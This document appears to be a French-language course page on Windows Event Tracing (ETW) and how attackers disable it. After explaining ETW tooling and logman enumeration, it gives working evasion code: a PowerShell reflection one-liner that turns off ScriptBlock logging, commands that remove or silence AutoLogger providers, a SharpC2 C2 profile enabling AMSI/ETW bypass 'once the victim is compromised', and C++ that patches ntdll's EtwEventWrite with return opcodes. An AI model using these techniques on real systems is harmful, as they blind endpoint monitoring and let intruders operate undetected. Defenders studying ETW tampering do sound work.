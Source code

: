 Prérequis :

- Connaitres la programmation applicative low-level.
- Connaitre un minimum l'architecture de Windows

# Qu'est ce que l'ETW ? 


ETW  ( Event Tracing for Windows ) va permettres de faire du suivi d'événements sur une applications programmer pour en stockant les événements de l’utilisateur ou du noyau dans des logs. il est possible de visionner ces logs plus tard ou en temps réel. l'ETW fais parti intégrant de Windows Performance Toolkit (WPT), WPT c'est ce qui comportes la plupart des outils de surveillance sur Windows. ETW est également utilisé lors des déploiement d'EDR.

Quand une session ETW est ouverte pour l'écoute d'évenement, l'ensembles des evenements sont stocké dans un fichier appelé Event Trace Log (ETL)


ETW API .NET : https://www.nuget.org/packages/Microsoft.Windows.EventTracing.Processing.All

ETW utilise le WPA et WPR pour géré et présenté les évenement de facon propre. WPA ( Windows Performance Analyzer ) va consulter les fichiers ETL produits par les applications active (Provider) d'une session ETW pour créer des graphiques et tableau, afin que le rendu soit propre.

WPR (Windows Performance Recorder) lui, agit en tant que contrôleur de session, c'est lui qui va démarrer et arrêter la session et peux sélectionner les événements ETW à enregistrer. des fichiers WPRP peuvent etre créer pour créer des profiles personnalisé, afin de pouvoir démarrer des sessions ETW en suivant des évenements très précis.


![](https://media.discordapp.net/attachments/713142876241920000/936061596755701780/unknown.png?width=838&height=609)


[Création de profils d’enregistrement | Documents Microsoft](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/authoring-recording-profiles)
[WPT Mise en route | Documents Microsoft](https://docs.microsoft.com/en-us/windows-hardware/test/wpt/wpt-getting-started-portal)
[Event Tracing - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/etw/event-tracing-portal)


### ETW Logman Enumeration :

Logman est un outil permettant aux utilisateurs windows de voir quel sessions ETW sont actives ainsi que les providers de ses logs.

ici, vous pouvez voir tout les providers actifs du powershell comme l'AMSI :

```powershell
PS> tasklist | findstr powershell
PS> logman query providers -pid <pid>
PS> logman query providers # ici on listera tout les providers sans exceptions
```
![](https://media.discordapp.net/attachments/713142876241920000/936061907746566234/unknown.png)

si vous souhaitez supprimé tout les providers actif venant de l'AutoLogger :
```powershell
PS> Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid {GUID}
```
Un AutoLogger est une Trace Session qui enregistre les événements des provider en kernel mode et en user mode.

désactiver l'ETW (logging ScriptBlock) :
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

pour lister toute les sessions ETW, exectuez cette commande.
```powershell
PS> logman -ets
```

###### EVENT_ENABLE_PROPERTY_IGNORE_KEYWORD_0 :


```powershell
Set-EtwTraceProvider -Guid {GUID} -AutologgerName 'EventLog-Application' -Property 0x11
```

cela permet de ne pas faire apparaitre les évenements ayant la valeur KEYWORD 0


#### Attaques contre l'ETW : 

differentes méthodes d'attaques contre ETW :

![](https://media.discordapp.net/attachments/713142876241920000/936061629181861948/unknown.png?width=1319&height=609)

-  __*rouge*__ : montre les attaques contre ETW de l’intérieur d’un processus mailicieux.
-   __*bleu clair*__ : montre les attaques sur ETW en modifiant les variables d’environnement, le registre et les fichiers
-   __*Orange*__ : montre des attaques contre les providers ETW en user mode
-   __*Bleu foncé*__ : montre les attaques contre les providers ETW en kernel mode
-   __*Violet*__ : montre des attaques sur les sessions ETW.

le nombre totals d'attaques possibles contre ETW serait de 36 mais Dans ce cours, nous verrons justes les attaques rouges, orange et bleu clair.
Certaines opérations Offensive (Red Team) on utilisé des techniques d'attaques contre ETW, exemple APT42 à désactivé l'ETW, APT Slingshot à renommé les ETL pour ne pas laisser de traces et le ransomware lockerGoga à désactiver ETW pour bypass les host-based sensors comme les HIDS, HIPS...

certains C2 on implémenté des fonctions pour bypass ETW, exemple SharpC2 :
```apm
[drones] > interact a47153bd55 
[a47153bd55] > help 
Name           Description 
----           ----------- 
abort            Abort a running task 
back             Go back to the previous screen 
bypass           Set a directive to bypass AMSI/ETW on tasks 
cat              Read a file as text 
cd               Change working directory 
execute-assembly Execute a .NET assembly 
exit             Exit this Drone
```
une fois que vous avez compromis la victime, vous pouvez intéragir avec le drone, *bypass* Indique au drone s'il doit ou non tenter de contourner AMSI et/ou ETW lors de l'exécution de commandes post-exp. Le drone utilise la bibliothèque MinHook.NET intégrée pour connecter amsi.dll!AmsiScanBuffer et ntdll.dll!EtwEventWrite.

###### Post-Exploitation Custom C2Profile, Bypass AMSI/ETW :

SharpC2 utilise des profils C2 pour personnaliser certaines actions. Les profils sont au format YAML et comportent 3 key/objects, Stage, PostExploitation et ProcessInjection.
```yaml
Stage: 
   SleepTime: 5 
   SleepJitter: 0 
   DllExport: Execute 
   SendStandardApi: true 
PostExploitation: 
   BypassAmsi: false 
   BypassEtw: false 
   SpawnTo: C:\Windows\System32\notepad.exe 
   AppDomain: SharpC2 
ProcessInjection: 
   Allocation: NtWriteVirtualMemory 
   Execution: RtlCreateUserThread
```

les valeurs BypassAmsi/BypassEtw indiquent au drone s'il doit ou non tenter de contourner l'AMSI et l'ETW lors des tâches post-ex. on peux
également l'utiliser pendant l'exécution avec la commande bypass.


###### ETW EtwEventWrite Patching :
![](https://media.discordapp.net/attachments/713142876241920000/936061204013649930/unknown.png)

on peux faire ce qu'on appelle du Function patching avec l'instruction RET.

ce code permet de désactiver le suivi d'évenement ETW en user-mode,
NTDLL est la couche la plus base du User-Mode. NTDLL comportes une grande listes de Fonctions utilisés pour le bon fonctionnement de Windows dans differentes versions de microprocesseur (x86, x64, wow64...). NTDLL comporte notamment la fonction `EtwEventWrite`.

La fonction EtwEventWrite est responsable de l’écriture d’événements dans une session. vu que *EtwEventWrite* fonctionne en user-mode, un attaquant peux bypass l'ETW.  la fonction se termine normalement par `ret 0x14`

vu que le Suivi D'événements ce termine par `EtwEventWrite` pour écrire les événements,  Si on réecris le même code assembleur au début de la Fonction `EtwEventWrite()` aucun évenement ne seras enregistré.

![](https://media.discordapp.net/attachments/713142876241920000/936061052997742634/unknown.png)

dans ce code ci dessus nous récupérons l'adresse de la fonction *EtwEventWrite* depuis NTDLL et on modifie les autorisations de ce segment mémoire avec VirtualProtect() en définissant les perms RWX (Read Write Exec)
et memcpy sera utilisé pour copier l’opcode pour un retour dans la mémoire tampon.


![](https://media.discordapp.net/attachments/713142876241920000/936061139421388810/unknown.png)

(64 bits)
vous pouvez voir que la valeur de retour est `c3` (\xc3) et donc `\x48\x33\xc0` c'est l'application de *XOR* sur le registre *rax* pour tout clear.

dans l'autre suite d'opcode (32 bits) , `\x33\xc0\xc2\x14\x00`, 
![](https://media.discordapp.net/attachments/713142876241920000/936062970167980053/unknown.png)

vous pouvez voir que la valeur de retour est c21400 soit `\xc2\x14\x0`" pour `ret 14h` et `\x33\xc0` pour *xor* le registre *EAX*

on peux aussi utiliser les préprocesseurs `#ifdef`, `#else`,`#endif` si on veux adapter les opcode suivants les versions.
```cpp
#ifdef _WIN64
        memcpy(addr, "\x48\x33\xc0\xc3", 4); // xor rax, rax; ret
#else
        memcpy(addr, "\x33\xc0\xc2\x14\x00", 5); // xor eax, eax; ret 14
#endif
```

résultat:

![](https://media.discordapp.net/attachments/713142876241920000/936060824869539950/unknown.png)
